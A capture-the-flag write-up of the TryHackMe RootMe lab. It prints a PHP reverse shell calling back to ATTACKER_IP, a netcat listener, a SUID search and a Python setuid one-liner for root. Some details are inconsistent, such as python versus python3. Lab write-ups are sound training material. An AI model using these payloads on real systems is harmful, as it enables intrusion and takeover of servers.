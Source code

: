 # PHP File Upload RCE and Privilege Escalation

## ⚙️ Lab Setup

**Attacker Machine:**  
- **OS:** Kali Linux (2024.1)  
- **Tools:** Metasploit Framework, Netcat, Python 3  
- **Network:** Attacker connected via VPN to the TryHackMe network

**Victim Machine:**  
- **OS:** Ubuntu-based (Linux)  
- **Service:** Web server running on port 80  
- **Exploit Target:** User `www-data` with limited privileges

## 🚪 Initial Foothold

The initial foothold was achieved by exploiting a vulnerability in the web application's upload functionality, allowing us to upload a malicious PHP script (reverse shell). Here's a breakdown of the steps:

**Identify Upload Functionality:**
   The web application had an upload feature that didn’t properly validate the file type, allowing us to upload a `.php` file containing a reverse shell payload.

**Uploading the Web Shell:**
   We crafted a simple PHP reverse shell:
   
   ```
   php
   <?php
   $ip = 'ATTACKER_IP';
   $port = 'ATTACKER_PORT';
   $sock = fsockopen($ip, $port);
   exec("/bin/sh <&3 >&3 2>&3");
   ?>
   ```
   
After uploading the file, it was accessible at the following path:

```
http://victim_ip/uploads/reverse_shell.php
```

Triggering the **Reverse Shell**:

Using **Netcat**, we set up a listener on the attacker's machine to catch the reverse shell connection:

```nc -lvnp 4444```

We then triggered the reverse shell by visiting the file in the browser:

`http://victim_ip/uploads/reverse_shell.php`

# 💻 Exploitation
Once inside the system, we were running with the `www-data` user. 

This is a low-privilege user typically used by web servers to handle HTTP requests. The goal was to escalate privileges and gain root access.

Initial Command:

```
> whoami
www-data
```

At this point, we had command execution but limited privileges. Our next objective was to find a way to escalate from www-data to root.

# 🧠 Privilege Escalation Attempt

First, we attempted a few common privilege escalation techniques, but none were effective. We focused on checking for **SUID binaries**, which could potentially allow us to run commands as root.

# 🔍 Searching for SUID Binaries
To find binaries with SUID permissions, we ran the following command:

```
find / -type f -perm -4000 2>/dev/null
```

This command searches for files with the SUID bit set, which allows the binary to be executed with the file owner's privileges (in this case, root).

SUID Binaries Found:

```
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/python
/usr/bin/sudo
```

`/usr/bin/sudo` was a noteworthy binary, as it’s typically used for executing commands as another user, including root.

`/usr/bin/python` was also interesting, as Python can often be exploited to run arbitrary code as root.

# 🔨 Privilege Escalation Exploit
We decided to exploit `/usr/bin/python` as it had SUID permissions. 

This allowed us to run a Python command as root. 
The following Python one-liner was used to **escalate privileges**:

```
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

`os.setuid(0)` sets the user ID to 0, which is root.

`os.system("/bin/bash")` opens a new shell with root privileges.


Successfully executed the command and gained root access.

```
> whoami 
root
```


# 🧪 Outcome
**Initial Access**: We gained initial access to the system via the web shell upload vulnerability.

**Privilege Escalation**: Using the Python SUID exploit, we escalated from the www-data user to root.

**Root Access**: We successfully gained root access and were able to execute arbitrary commands as the root user.

# 🔐 Notes
The web shell upload vulnerability provided an easy initial foothold in the system.

Privilege escalation was straightforward after identifying the SUID binaries, especially `/usr/bin/python`, which allowed us to execute arbitrary code as root.

The system did not have more complicated protection mechanisms, making this a relatively simple privilege escalation once access was obtained.

# 🧰 Tools Used
Kali Linux (2024.1)

Metasploit Framework (for reverse shell generation)

Netcat (for reverse shell listener)

Python 3.x (for privilege escalation)

# 🧾 References
[RootMe CTF](https://tryhackme.com/room/rrootme)

[Python SUID Exploit](https://gtfobins.github.io/gtfobins/python/)